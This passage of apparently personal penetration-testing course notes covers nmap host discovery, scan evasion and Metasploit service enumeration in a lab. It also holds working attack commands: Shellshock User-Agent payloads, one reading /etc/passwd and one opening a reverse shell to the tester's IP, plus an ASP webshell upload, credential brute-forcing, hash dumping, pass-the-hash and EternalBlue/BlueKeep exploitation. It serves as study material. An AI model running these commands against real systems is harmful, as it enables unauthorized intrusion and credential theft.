- `TCP ACK Ping`: This method involves sending TCP ACK packets to a specific port to check if a host is alive. This technique expects no response, but if a TCP RST (reset) is received, it indicates that the host is alive.
- `SYN-ACK Ping (Sends SYN-ACK packets)`: This technique involves sending TCP SYN-ACK packets to a specific port to check if a host is alive. If a TCP RST is received, it indicates that the host is alive.

The choice of the best host discovery technique in penetration testing depends on various factors, and there isn't a one-size-fits-all answer. The effectiveness of a host discovery technique can be influenced by the specific characteristics of the target network, the security controls in place, and the goals of the penetration test. Here are a few considerations:

| Technique   | Pros                                                                 | Cons                                                                                       |
|-------------|----------------------------------------------------------------------|--------------------------------------------------------------------------------------------|
| ICMP Ping   | ICMP ping is a widely supported and quick method for identifying live hosts. | Some hosts or firewalls may be configured to block ICMP traffic, limiting its effectiveness. ICMP ping can also be easily detected. |
| TCP SYN Ping | TCP SYN ping is stealthier than ICMP and may bypass firewalls that allow outbound connections. | Some hosts may not respond to TCP SYN requests, and the results can be affected by firewalls and security devices. |

#### **Ping Sweeps**

The `ping` command is a utility designed to check if a host is alive or reachable. This command is available on every major operating system and can be executed in the command line or terminal as follows:

```bash
ping www.site.test
```

The output might look something like this:

```bash
Pinging www.site.test (12.34.56.78) with 32 bytes of data:
Reply from 12.34.56.78: bytes32 time=57ms TTL=127
Reply from 12.34.56.78: bytes32 time=43ms TTL=127
Reply from 12.34.56.78: bytes32 time=44ms TTL=127
```

The `ping` utility operates by sending one or more specially crafted `ICMP` packets (`Type 8 - echo request`) to a host. If the destination host replies with an `ICMP echo reply (Type 0)` packet, then the host is considered `alive` or `online`. In the context of `ICMP (Internet Control Message Protocol)`, the `ICMP Echo Request` and `Echo Reply` messages are used for the purpose of `ping`. These messages have specific `ICMP type` and `code` values associated with them.

| ICMP Message   | Type | Code |
|----------------|------|------|
| Echo Request   | 8    | 0    |
| Echo Reply     | 0    | 0    |

The `ICMP` header has a "Type" field indicating the purpose of the message, and a "Code" field for additional context. `ICMP Echo Request` and `Echo Reply` have Type values 8 and 0 respectively. When a device sends an `Echo Request`, it creates an `ICMP` packet with `Type 8, Code 0`. The responding device creates an `ICMP` packet with `Type 0, Code 0` for `Echo Reply`. A `ping sweep` is a network scanning technique to identify live hosts within a specific IP range by sending `ICMP Echo Request` messages and monitoring responses. If a host is offline or unreachable, the `Echo Request` won't receive a corresponding `Echo Reply`. The absence of a response could be due to network congestion, temporary unavailability, or firewall settings blocking `ICMP` traffic. The `ping` utility checks host reachability, but results should be interpreted in the context of network conditions and host configuration.

<p>

Using the command ping you can specify the amount of ICMP packets you want to send:

```bash
ping -c 1 <ip>
```

Another tool you can use is fping, and can be used like this:

```bash
fping -a -g <ip>/<subnet> 2>/dev/null
```

#### **Host Discovery With Nmap**

For host Discovery with Nmap, the best command you can use is:

```bash
sudo nmap -sn -v -T4 -PS21,22,25,80,445,3389,8080 -PU137,138 -iL ip.txt
```

- `-sn`: Ping scan, no port scan. Used to find which hosts are up.
- `-v`: Increases verbosity. Provides more details about the scan.
- `-T4`: Sets the timing template to "aggressive". Speeds up the scan, but may miss some details.
- `-PS`: TCP SYN ping scan. Used for host discovery, especially when ICMP is blocked.
- `-PU`: UDP ping. Used for host discovery when TCP or ICMP is blocked.
- `-iL`: This is used to input a list of targets to be scanned from a file.
---
- `-PA`: TCP ACK ping. May not be reliable if firewalls ignore ACK packets.
- `-PE`: ICMP echo request ping. May be blocked by firewalls or hosts ignoring ICMP.
- `--send-ip`: Controls whether the source IP is sent in network requests.

### **Port Scanning**

Port scanning is a crucial step in the reconnaissance phase of a penetration test. It allows us to discover open ports on a target system and identify the services running on those ports. This information can be used to detect potential vulnerabilities that could be exploited. In this section, we will discuss different techniques and tools used for port scanning, including their advantages and disadvantages.

#### **Port Scanning With Nmap**

```bash
sudo nmap -p- -sS --open -vvv --min-rate 5000 -n -Pn -iL ip.txt -oG allPorts.txt
```

- `-p-`: This tells nmap to scan all 65535 ports. By default, nmap only scans the most common 1000 ports.
- `-sS`: This is the TCP SYN scan option. It's often called "half-open scanning" because you don't open a full TCP connection. You send a SYN packet, as if you are going to open a real connection and then wait for a response.
- `--open`: This tells nmap to only show open ports.
- `-vvv`: Maximum verbosity level, displays all the details about the scan that nmap can provide.
- `--min-rate 5000`: This sets the minimum number of packets that nmap will send per second. In this case, it's set to 5000 packets per second.
- `-n`: This tells nmap not to do a DNS resolution for the IP addresses.
- `-Pn`: This tells nmap to assume the host is up and skip the host discovery phase.
- `-iL`: This is used to input a list of targets to be scanned from a file.
- `-oG`: This tells nmap to output the results in a "grepable" format to a file. 

#### **Service Version & OS Detection**

```bash
nmap -T4 -sS -sV --version.intensity 8 -O --osscan-guess -p- ip
```

#### **Nmap Scripting Engine (NSE)**

```bash
nmap -sS -sV -sC -p- --min-rate=5000 ip
```

```bash
nmap -sS -A -T4 --script=category ip
```

- `-A-` = traceroute + -sC + -sV + -O

### Evasion, Scan Performance & Output

In penetration testing and network scanning, evading detection, optimizing scan performance, and effectively managing output are crucial aspects. Evasion techniques help in bypassing firewalls, intrusion detection systems (IDS), and other security measures to avoid detection. Optimizing scan performance ensures that scans are completed efficiently and within a reasonable timeframe. Properly managing scan output is essential for analyzing results and documenting findings. In this section, we will explore various strategies and tools to enhance evasion, improve scan performance, and handle scan output effectively.

#### **Firewall Detection & IDS Evasion**

To detect if a Windows machine has a firewall you can run:

```bash
nmap -Pn -sA -p445,3389 ip
```

If the ports are `unfiltered`there is no firewall.

Normally to fragment the packets you can do:

```bash
nmap -Pn -sS -sV -p- -f ip
```

```bash
nmap -Pn -sS -sV -p- -f --data-length 200 -mtu 34 -g 53 -D gateway_ip ip
```
- `--data-length`: Adds 200 bytes of random data to the packets. This can help evade detection by making the packets look less like typical nmap scans.
- `-mtu`: Sets the maximum transmission unit (MTU) to 34 bytes. This further fragments the packets, making it harder for security systems to detect the scan.
- `-g`: Sets the source port of the packets to 53. This can help evade detection as some firewalls and IDS may treat traffic from port 53 (commonly used for DNS) as less suspicious.
- `-D`: Uses decoy addresses to hide the real source of the scan. gateway_ip is a placeholder for the IP address of the decoy. This makes it harder for the target to identify the actual source of the scan.

#### **Optimizing Nmap Scans**

```bash
nmap -sS -sV -F --host-timeout 5s ip/mask
```

- `--host-timeout`: Sets a timeout of 5 seconds for the scan. If the scan takes longer than this, nmap will stop scanning the host.

```bash
nmap -sS -sV -F --scan-delay 5s ip
```
- `--scan-delay`: Introduces a delay of 5 seconds between each probe sent to the target. This can help evade detection by IDS/IPS systems that might flag rapid scanning activity.

#### **Nmap Output Formats**

- `-oN`: Normal output. This is the default human-readable format that `nmap` uses to display scan results.
- `-oX`: XML output. This format is useful for parsing the scan results with other tools or scripts that can process XML data.
- `-oS`: Script kiddie output. This format is designed to look like the output from a popular hacking tool, making it less professional but more fun.
- `-oG`: Grepable output. This format is useful for quickly parsing the scan results with command-line tools like `grep` or `awk`.

SMB Nmap:
```bash
nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
nmap -p445 --script smb-enum-shares demo.ine.local
nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
nmap -p445 --script smb-enum-domains --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
```


## **Enumeration**

Enumeration is the process of identifying and analyzing `network services`, a fundamental step in the `penetration testing` lifecycle. You will gain in-depth knowledge of using the `Nmap Scripting Engine (NSE)` for advanced service detection and enumeration, which provides an automated and customizable approach to network scanning. The material covers the enumeration techniques for commonly encountered services such as `SSH`, `FTP`, `SMB`, and `SMTP`. Through practical lab demonstrations, you will master the skills to uncover `service versions`, identify potential `vulnerabilities`, and gather critical information that can be leveraged in subsequent penetration testing phases. The content will equip you with the expertise to enumerate network services and elevate your penetration testing capabilities efficiently.

### **Introduction to Enumeration**

After the `host discovery` and `port scanning` phase of a penetration test, the next step is `service enumeration`. The goal of service enumeration is to gather detailed information about the `hosts` and `services` on a network, such as `account names`, `shares`, and `misconfigured services`. Like scanning, enumeration involves active connections to remote devices.

There are many `network protocols` that can be targeted if misconfigured or left enabled. This section explores various `tools` and `techniques` to interact with these protocols, with the potential for exploitation in later phases.

#### **Nmap Scripting Engine (NSE)**

The Nmap Scripting Engine (NSE) is a powerful feature of Nmap that extends its capabilities beyond simple port scanning. NSE allows users to write and use scripts to automate a wide range of networking tasks, including advanced service detection, vulnerability detection, and even exploitation. These scripts can be used to gather detailed information about network services, identify potential security issues, and perform complex network reconnaissance. In this section, we will explore how to leverage NSE for effective service enumeration and penetration testing, providing you with the skills to enhance your network scanning and security assessment processes.

##### **Port Scanning & Enumeration with Nmap**

```bash
nmap -Pn -sV -O ip -oX windows_server_2012
```

##### **Importing Nmap Scan Results into MSF**

```bash
service postgresql start
msfconsole
db_status
workspace 
workspace -a Win2k12
db_import /root/windows_server_2012
hosts
services
workspace -a Nmap_MSF
db_nmap -Pn -sV -O ip
vulns
```

##### **Port Scanning with Auxiliary Modules**

Auxiliary modules are versatile tools used for scanning, discovery, and fuzzing. They can perform both TCP and UDP port scanning and enumerate information from services like FTP, SSH, and HTTP. These modules are useful during both the information gathering and post-exploitation phases of a penetration test. After gaining initial access to a target system, auxiliary modules can discover hosts and perform port scanning on different network subnets. In the lab infrastructure, the objective is to utilize auxiliary modules to discover open ports on the first target, exploit the service running on the target to gain a foothold, use the foothold to access other systems on a different network subnet (pivoting), and then use auxiliary modules to scan for open ports on the second target.

For searching TCP auxiliary modelues you can do:

```bash
service postgresql start
msfconsole
db_status
workspace -a Port_Scan
search portscan
use auxiliary/scanner/portscan/tcp
show options
set RHOSTS ip
run (port 80 open)
curl ip
search xoda (technology of the web server)
use exploit/unix/webapp/xoda_file_upload
set RHOSTS ip
set TARGETURI /
set LHOST my_ip
exploit
```

-Spawns meterpreter session

```bash
sysinfo
shell
/bin/bash -i
ifconfig
^C
run autoroute -s ip
background
search portscan
use 5
set RHOSTS ip (other machine)
run
````

For searching UDP auxiliary modelues you can do:

```bash
back
search udp_sweep
use 0
setr RHOST ip
run
````

For scanning the 2 machine:

Check the static binaries available in the "/usr/bin/" directory

```bash
ls -al /usr/bin/nmap
file /usr/bin/nmap
```

CTRL+z to background the Metasploit session
Create bash script to scan the first 1000 ports

```bash
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
````

Press "fg" and press enter to foreground the Metasploit session.

```bash
sessions -i 1
upload /usr/bin/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh demo2.ine.local
nmap -p- demo2.ine.local
```

#### **Service Enumeration**

Service enumeration is a critical phase in the penetration testing process, following host discovery and port scanning. This phase involves actively connecting to network services to gather detailed information about the services running on the target hosts. The goal is to identify service versions, account names, shares, and any misconfigured services that could be exploited. By understanding the specifics of the services in use, penetration testers can uncover potential vulnerabilities and security weaknesses. In this section, we will explore various tools and techniques for effective service enumeration, enabling you to gather the necessary information to advance your penetration testing efforts.


##### **FTP Enumeration**

FTP (File Transfer Protocol) uses TCP port `21` for file sharing between a server and clients, and is often used for transferring files to and from web server directories. Multiple auxiliary modules can be used to enumerate information and perform brute-force attacks on FTP servers. FTP authentication typically requires a username and password, but some improperly configured FTP servers allow anonymous login.

```bash
service postgresql start
msfconsole
db_status
workspace -a FTP_enum
search portscan
use auxiliary/scanner/portscan/tcp
show options
set RHOSTS ip
run 
search ftp 
search type:auxiliary name:ftp
use 24 (auxiliary/scanner/ftp/ftp_version)
set RHOSTS ip
run
```
```bash
search ProFTPD (technology of ftp)
back
search type:auxiliary name:ftp
use 23 (auxiliary/scanner/ftp/ftp_login)
set RHOSTS ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
ftp ip
```

```bash
search type:auxiliary name:ftp
use 19 (auxiliary/scanner/ftp/anonymous)
set RHOSTS ip
run
```

##### **SMB Enumeration**

SMB (Server Message Block) is a network file sharing protocol used for sharing files and peripherals on a local network (LAN). It uses TCP port `445`, but originally ran on port `139` over NetBIOS. SAMBA is the Linux implementation of SMB, enabling Windows systems to access Linux shares and devices. Auxiliary modules can be used to enumerate SMB versions, shares, users, and perform brute-force attacks to identify users and passwords.


```bash
service postgresql start
msfconsole
db_status
workspace -a SMB_enum
setg RHOSTS ip (global variable auto assign)
search type:auxiliary name:smb
use 34 (auxiliary/scanner/smb/smb_version)
run
use 29 (auxiliary/scanner/smb/smb_enumusers)
run (users: john, elie, aisha, shawn, emma, admin)
use 28 (auxiliary/scanner/smb/smb_enumshares)
set ShowFiles true
run
search smb_login
use 1
set SMBUser admin
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run (admin:password)
exit
```

```bash
smbclient -L ////ip// -U admin
smbclient ////ip//public -U admin
ls
smbclient ////ip//aisha -U admin
cd dir
```

NetBIOS computer name of samba

```bash
nmblookup -A ip
```

See shares if there is anonymous connection allowed
```bash
smbclient -L ip -N
```

```bash
rpcclient -U "" -N ip
```

##### **Web Server Enumeration**

A web server is software that serves website data using HTTP (Hypertext Transfer Protocol) over TCP port `80` or `443` for HTTPS. Auxiliary modules can be used to enumerate the web server version, HTTP headers, brute-force directories, and more. Popular web servers include Apache, Nginx, and Microsoft IIS.

```bash
service postgresql start
msfconsole
db_status
workspace -a Web_enum
setg RHOSTS ip 
setg RHOST ip 
search type:auxiliary name:http
use 42 (auxiliary/scanner/http/http_version)
run
search http_header
use 1
run
search robots_txt
use 1
run (directories disallowed: /data and /secure)
curl http://ip/data/
curl http://ip/secure/
use auxiliary/scanner/http/brute_dirs
run
search dir_scanner
use 1
run
use auxiliary/scanner/http/dir_listing
run
search files_dir
use 1
run
search http_login
use 4
set AUTH_URI /secure/
unset USERPASS_FILE
set USER_FILE /usr/share/metasploit-framework/datawordlist/namelist.txt
set PASS_FILE /usr/share/metasploit-framework/datawordlist/unix_passwords.txt
set VERBOSE false
run
search apache_userdir_enum
use 1
set USER_FILE /usr/share/metasploit-framework/datawordlist/common_users.txt
run (user: rooty)
search http_login
use 4
echo "rooty" > user.txt
set USER_FILE /root/user.txt
run
use auxiliary/scanner/http/http_put
set PATH /data
set FILENAME test.txt
set FILEDATA "Welcome To AttackDefense"
run
wget http://victim-1:80/data/test.txt 
cat test.txt
use auxiliary/scanner/http/http_put
set PATH /data
set FILENAME test.txt
set ACTION DELETE
run
```

##### **MySQL Enumeration**

MySQL is an open-source relational database management system based on SQL, commonly used to store web application data and customer records. It typically uses TCP port `3306` but can run on any open TCP port. Auxiliary modules can enumerate the MySQL version, perform brute-force attacks to identify passwords, execute SQL queries, and more.


```bash
service postgresql start
msfconsole
db_status
workspace -a MySQL_enum
setg RHOSTS ip 
setg RHOST ip 
search type:auxiliary name:mysql
use 6 (auxiliary/scanner/portscan/tcp)
run
use 9 (auxiliary/scanner/mysql/mysql_version)
run
search mysql_login
use 1
show options
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false 
run
search mysql_enum
use 1
info
set PASSWORD password
set USERNAME root
run
search mysql_sql
use 1
show options
set PASSWORD password
set USERNAME root
run
set SQL show databases;
run 
set SQL use videos;
run
search mysql_schema
use 1
show options
set PASSWORD password
set USERNAME root
run
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS demo.ine.local
set USERNAME root
set PASSWORD password
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root
set PASSWORD password
set RHOSTS demo.ine.local
run
hosts
services
loot
creds
exit
mysql -h ip -u root -p
```

##### **SSH Enumeration**

SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet. It is typically used for remote access to servers and systems, using TCP port `22` by default. Auxiliary modules can enumerate the SSH version and perform brute-force attacks to identify passwords, potentially providing remote access to a target.

```bash
service postgresql start
msfconsole
db_status
workspace -a SSH_enum
setg RHOSTS ip 
setg RHOST ip 
search type:auxiliary name:shh
use 15 (auxiliary/scanner/ssh/ssh_version)
show options
run
search openssh
search type:auxiliary name:shh
use 13 (auxiliary/scanner/ssh/ssh_login)
show options
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
run
sessions
sessions 1
/bin/bash -i
find / -name "flag"
cat /flag
exit
search type:auxiliary name:shh
use 11 (auxiliary/scanner/ssh/ssh_enumusers)
show options
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run

##### **SMTP Enumeration**

SMTP (Simple Mail Transfer Protocol) is used for email transmission, typically on TCP port `25`, but can also run on ports `465` and `587`. Auxiliary modules can enumerate the SMTP version and user accounts on the target system.

```bash
service postgresql start
msfconsole
db_status
workspace -a SMTP_enum
setg RHOSTS ip 
setg RHOST ip 
search type:auxiliary name:smtp
use 7 (auxiliary/scanner/smtp/smtp_version)
show options
run
search type:auxiliary name:smtp
use 4 (auxiliary/scanner/smtp/smtp_enum)
run
exit
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t demo.ine.local
```

## **Assessment Methodologies Vulnerability Assessment**

The Vulnerability Assessment course is designed for penetration testers and cybersecurity practitioners looking to enhance their ability to identify and evaluate security weaknesses in networks, applications, and systems. This course provides a comprehensive introduction to vulnerability assessment, distinguishing it from vulnerability scanning and penetration testing, while emphasizing its crucial role in the overall security lifecycle. Through hands-on labs using industry-standard tools like Nessus and Nmap, you will learn to conduct thorough assessments, interpret findings, and prioritize vulnerabilities for remediation, equipping you with the skills needed to safeguard digital assets effectively.

### **Vulnerability Assessment**

Microsoft Windows, with a market share of over `70%` as of `2021`, is the dominant operating system worldwide, making it a prime target for attackers. Over the past `15 years`, Windows has experienced several severe vulnerabilities, such as `MS08-067 (Conficker)` and `MS17-010 (EternalBlue)`. Due to its popularity, many of these vulnerabilities have publicly accessible exploit code, making them relatively easy to exploit.

Microsoft Windows has various OS versions, leading to a fragmented threat surface. Vulnerabilities in `Windows 7` may not exist in `Windows 10`. Despite different versions, all Windows OS share similarities due to their development in `C`, making them susceptible to `buffer overflows` and `arbitrary code execution`. Windows is not securely configured by default and requires proactive security practices. Newly discovered vulnerabilities are not immediately patched, leaving many systems unpatched. Frequent new releases contribute to exploitation as companies often delay upgrading, opting to use older, vulnerable versions. Windows is also susceptible to cross-platform vulnerabilities like `SQL injection` and physical attacks such as `theft` and `malicious peripherals`.

#### **Overview of Windows Vulnerabilities**

Types of Windows Vulnerabilities:
- `Information disclosure`: Allows access to confidential data.
- `Buffer overflows`: Caused by programming errors, allowing data to overrun allocated buffers.
- `Remote code execution`: Allows remote execution of code on the target system.
- `Privilege escalation`: Allows attackers to elevate privileges after initial compromise.
- `Denial of Service (DOS)`: Consumes system resources, preventing normal functionality.

#### **Frequently Exploited Windows Services**

Microsoft Windows has various native services and protocols that can be configured to run on a host. These services provide attackers with access vectors to gain entry to a target host. Understanding these services, their functionality, and potential vulnerabilities is crucial for penetration testers.

| Protocol/Service | Ports          | Purpose                                                                                       |
|------------------|----------------|-----------------------------------------------------------------------------------------------|
| Microsoft IIS (Internet Information Services) | TCP ports 80/443 | Proprietary web server software developed by Microsoft that runs on Windows.                   |
| WebDAV (Web Distributed Authoring & Versioning) | TCP ports 80/443 | HTTP extension that allows clients to update, delete, move, and copy files on a web server. WebDAV is used to enable a web server to act as a file server. |
| SMB/CIFS (Server Message Block Protocol) | TCP port 445    | Network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN). |
| RDP (Remote Desktop Protocol) | TCP port 3389   | Proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and interact with a Windows system. |
| WinRM (Windows Remote Management Protocol) | TCP ports 5986/443 | Windows remote management protocol that can be used to facilitate remote access with Windows systems. |

#### **Vulnerability Scanning with MSF**

Vulnerability scanning and detection involve scanning a target for vulnerabilities and verifying their exploitability. This section focuses on using auxiliary and exploit modules to identify inherent vulnerabilities in services, operating systems, and web applications. This information is crucial for the exploitation phase. Additionally, we will explore using third-party vulnerability scanning tools like Nessus and integrating Nessus functionality into MSF.

```bash
service postgresql start
msfconsole
db_status
workspace -a MS3
setg RHOSTS ip 
setg RHOST ip 
db_nmap -sS -sV -O ip
hosts
services
search type:exploit name:Microsoft IIS
search type:exploit name:MySQL 5.5
search type:exploit name:Sun GlassFish
use 1
info
set payload windows/meterpreter/reverse_tcp
show options
search eternalblue
use 3
show options
run
use 0
run
sysinfo
exit
back
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
---
cd Downloads
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
sudo mv db_autopawn.rb /usr/share/metasploit-framework/plugins
msfconsole
load db_autopawn
db_autopawn -p -t -PI port
analyze
vulns
```

#### **WebDAV Vulnerabilities**

IIS (Internet Information Services) is a `proprietary web server software` developed by `Microsoft` for the `Windows NT family`. It hosts `websites` and `web apps`, providing a robust `GUI` for management. IIS supports both `static` and `dynamic web pages` developed in `ASP.NET` and `PHP`, typically running on ports `80/443`. Supported executable file extensions include `.asp`, `.aspx`, `.config`, and `.php`.

WebDAV (Web-based Distributed Authoring and Versioning) is a set of `HTTP extensions` that allow users to collaboratively edit and manage files on remote web servers, enabling a web server to function as a `file server`. It runs on `Microsoft IIS` on ports `80/443` and requires legitimate credentials (`username` and `password`) for authentication.

First, identify if WebDAV is configured on the IIS web server. Perform a `brute-force attack` to find legitimate credentials for authentication. Once authenticated, upload a malicious `.asp payload` to execute arbitrary commands or obtain a `reverse shell` on the target.

- `davtest`: Used to scan, authenticate, and exploit a WebDAV server. Pre-installed on most penetration testing distributions like `Kali` and `Parrot OS`.
- `cadaver`: Supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers. Pre-installed on most penetration testing distributions like `Kali` and `Parrot OS`.

```bash
nmap -sV -p 80 --script=http-enum ip
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt ip http-get /webdav/
davtest -url http://ip/webdav
davtest -auth user:password -url http://ip/webdav
cadaver http://ip/webdav
ls
put /usr/share/webshells/asp/webshell.asp
dir C:\
type C:\flag.txt
---
ls -al /usr/share/webshells/
ls -al /usr/share/webshells/asp
```

### **Vulnerability Analysis**

#### **Vulnerability Analysis: EternalBlue**

EternalBlue (`MS17-010/CVE-2017-0144`) is a collection of Windows vulnerabilities and exploits that allow `remote code execution` and access to a Windows system and its network. Developed by the `NSA` and leaked by the `Shadow Brokers` in 2017, EternalBlue exploits a vulnerability in the Windows `SMBv1 protocol` by sending specially crafted packets to execute arbitrary commands.

The EternalBlue exploit was used in the `WannaCry ransomware attack` on June 27, 2017, to spread ransomware across networks. This vulnerability affects multiple versions of Windows, including `Vista`, `7`, `Server 2008`, `8.1`, `Server 2012`, `10`, and `Server 2016`.

Microsoft released a patch for the vulnerability in March 2017, but many systems remain unpatched. The EternalBlue exploit has an `MSF auxiliary module` to check for vulnerability and an `exploit module` to exploit it. This exploit can provide a privileged `meterpreter session` on vulnerable Windows systems.

```bash
sudo nmap -sV -p 445 -O i`p
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 ip
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
pip install -r requirements.txt
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
ip
1234
1234
1
1
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py ip shellcode/sc_x64.bin
----
nc -nvlp 1234
```

```bash
service postgresql start
msfconsole
db_status
workspace -a eternalblue
setg RHOSTS ip 
setg RHOST ip 
search eternalblue
use 0
show options
run
```

#### **Vulnerability Analysis: BlueKeep**

BlueKeep (`CVE-2019-0708`) is an `RDP vulnerability` in Windows that allows attackers to remotely execute arbitrary code and gain access to a Windows system and its network. Made public by `Microsoft` in May 2019, the exploit targets a vulnerability in the Windows `RDP protocol`, enabling attackers to access a chunk of `kernel memory` and execute arbitrary code at the system level without authentication.

Microsoft released a `patch` for the BlueKeep vulnerability (`CVE-2019-0708`) on May 14th, 2019, urging companies to patch it immediately. At the time of discovery, about `1 million systems` worldwide were found to be vulnerable. BlueKeep affects multiple versions of Windows, including `XP`, `Vista`, `Windows 7`, and `Windows Server 2008 & R2`.

The BlueKeep vulnerability has various illegitimate `PoCs` and exploit code that could be malicious. It is recommended to use only verified exploit code and modules. BlueKeep has an `MSF auxiliary module` to check for vulnerability and an `exploit module` to exploit it on unpatched systems, providing a privileged `meterpreter session` on the target system. 

```bash
sudo nmap -p 3389 ip
msfconsole 
setg RHOSTS ip 
setg RHOST ip 
search BlueKeep
use 0
show options
run
search BlueKeep
use 1
run
show targets
set target 2
run
sysinfo
pgrep lsass
migrate 780
```

#### **Pass-the-Hash Attacks**

Pass-the-hash is an exploitation technique that involves capturing NTLM hashes or clear-text passwords to authenticate with the target legitimately. Tools like Metasploit PsExec module and Crackmapexec can facilitate this attack. This technique allows access to the target system using legitimate credentials instead of service exploitation.

```bash
load kiwi
lsa_dump_sam
hashdump
search psexec
use 9
set SMBUser Administrator
set SMBPass hash
run
set target Command
run
set target Native\ upload
```

```bash
crackmapexec smb ip -u Administrator -H "hash"
crackmapexec smb ip -u Administrator -H "hash" -x "ipconfig"
```

#### **Frequently Exploited Linux Services**

Linux is a `free` and `open-source` operating system that combines the `Linux kernel`, developed by `Linus Torvalds`, and the `GNU toolkit`, developed by `Richard Stallman`, commonly referred to as `GNU/Linux`. While Linux has various use cases, it is typically deployed as a `server operating system`. This means specific `services` and `protocols` are commonly found running on a Linux server, providing attackers with `access vectors` to target hosts. Understanding these services, their functionality, and potential `vulnerabilities` is crucial for `penetration testers`.

| Protocol/Service    | Ports         | Purpose                                                                                       |
|---------------------|---------------|-----------------------------------------------------------------------------------------------|
| Apache Web Server   | TCP ports 80/443 | Free and open-source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globally. |
| SSH (Secure Shell)  | TCP port 22   | SSH is a cryptographic remote access protocol used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet. |
| FTP (File Transfer Protocol) | TCP port 21   | FTP is a protocol that uses TCP port 21 for file sharing between a server and clients. |
| SAMBA               | TCP port 445  | Samba is the Linux implementation of SMB, allowing Windows systems to access Linux shares and devices. |

#### **Vulnerability Analysis: Shellshock**

Shellshock (`CVE-2014-6271`) is a family of vulnerabilities in the `Bash shell` (since V1.3) that allow remote arbitrary command execution, enabling attackers to gain remote access via a `reverse shell`. Discovered by `Stéphane Chazelas` on September 12, 2014, and made public on September 24, 2014, Bash is the default shell for most `Linux distributions` and is part of the `GNU project`.

The Shellshock vulnerability in Bash causes it to mistakenly execute trailing commands after specific characters: `() {:;};`. This affects `Linux systems`, as `Windows` does not use Bash. `Apache web servers` running `CGI` or `.sh scripts` are also vulnerable, as CGI scripts allow arbitrary command execution on the Linux system.

To exploit Shellshock, locate an input vector or script that communicates with Bash. On an Apache web server, use accessible CGI scripts. When a CGI script is executed, the web server runs it with Bash. This vulnerability can be exploited manually or automatically using an `MSF exploit module`.

```bash
nmap -sV ip --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```

burpsuite:
User-Agent: () { :; }; echo; echo; /bin/bash -c `cat /etc/passwd'

```bash
nc -nvlp 1234
```

User-Agent: () { :; }; echo; echo; /bin/bash -c `bash -i>&/dev/tcp/my_ip/1234 0>&1'

```bash
service postgresql start
msfconsole
db_status
setg RHOSTS ip 
setg RHOST ip 
search shellshock
use 5
show options
set TARGETURI /gettime.cgi
run
```

### **Vulnerability Scanning**

#### **Vulnerability Scanning with Nessus**

Nessus is a proprietary vulnerability scanner developed by Tenable. It automates the identification of vulnerabilities and provides relevant information like CVE codes. After scanning a target system, Nessus results can be imported into MSF for analysis and exploitation. The free version, Nessus Essentials, allows scanning of up to 16 IPs.

#### **Web App Vulnerability Scanning with WMAP**

WMAP is a powerful web application vulnerability scanner that automates web server enumeration and scans web applications for vulnerabilities. Available as an MSF plugin, WMAP can be loaded directly into MSF, allowing for integrated web app vulnerability scanning within the MSF framework.

```bash
service postgresql start
msfconsole
db_status
setg RHOSTS ip 
setg RHOST ip 
load wmap
wmap_
wmap_sites -a ip
wmap_targets -t http://ip
wmap_sites -l
wmap_targets -l
wmap_run -t
wmap_run -e
wmap_vulns -l
use auxiliary/scanner/http/http_put
run
set PATH /data/
run
curl http://ip:80/data/msf_http_put_test.txt
show options
set FILEDATA "this does work"
set FILENAME "this_works.txt
run
curl http://ip:80/data/this_works.txt
```

# **Host & Networking Auditing**

## **Auditing Fundamentals**

# **Host & Network Penetration Testing**

## **System/Host Based Attacks**

## **Network-Based Attacks**

## **The Metasploit Framework (MSF)**

## **Exploitation**

## **Post-Exploitation**

## **Social Engineering**

# **Web Application Penetration Testing**

## **Introduction to the Web and HTTP Protocol**